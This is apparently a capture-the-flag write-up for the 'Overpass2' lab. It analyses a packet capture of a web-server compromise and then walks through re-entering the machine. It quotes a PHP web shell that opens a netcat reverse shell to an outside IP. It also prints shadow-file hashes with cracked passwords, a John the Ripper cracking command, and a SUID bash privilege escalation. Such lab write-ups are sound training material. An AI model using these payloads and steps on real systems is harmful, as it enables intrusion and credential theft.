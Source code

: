 # Overpass2

We are given a capture of traffic in the network at the moment of the attack.<br>
Let's use wireshark to analyse what happened.<br>

In the tcp stream 0, we can see that the <strong>/development<strong> endpoint is reached.<br>
On this endpoint, a php file called upload.php can be retrieve, a script which may allow to upload files.<br>
We can also see in the tcp stream 1, that attackers have uploaded a php script containing the following command :<br>
> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

Which must force the webserver to throw a netcat reverse shell to attackers when accessing this following url :<br>
> /development/uploads/payload.php


The tcp stream 3 show the traffic of this reverse shell, and show in plaintext what commands were used and the results of thoses commands.<br>
Attackers privesc to the james account using this password : whenevernoteartinstant<br>
They also downloaded a program : git clone https://github.com/NinjaJc01/ssh-backdoor, which must be an ssh backdoor.<br>

In this stream, the content of the /etc/passwd file is show : 

```
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Thoses password could be cracked : 

```
1qaz2wsx         (muirland)     
abcd123          (szymex)     
secret12         (bee)     
secuirty3        (paradox)  
```

We can find the following informations analysing the code of the ssh backdoor on github : <br>
hardcoded hash : bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3<br>
hardcoded salt : 1c362db832f3f864c8c2fe05f2002a05<br>

And in the network traffic :<br>
hash used by attacker : 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed<br>

We have a hash and a salt, we need to combien them to make it crackable<br>
Our crakable hash is in the form <strong>password$salt</strong>

> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05

We can now crack it using john the ripper, but we need to precise that we have a sha512 hash with a salt<br>
> sudo john ssh.hash --format='dynamic=sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt

We get : november16     

Let's connect to the SSH Backdoor.<br>
> ssh james@10.10.7.215 -p 2222 -oHostKeyAlgorithms=+ssh-rsa

We need to add <strong>-oHostKeyAlgorithms=+ssh-rsa</strong> because open-ssh deprecated the ssh-rsa protocol<br>

Searching around the system with linpeas, we can find a weird SUID binary at : 
-rwsr-sr-x 1 root root 1.1M Jul 22  2020 /home/james/.suid_bash

Executing the script, it get us a bash shell, but without the root permissions.<br>
To make it keep the root permissions, we need to add a -p<br>
/home/james/.suid_bash -p

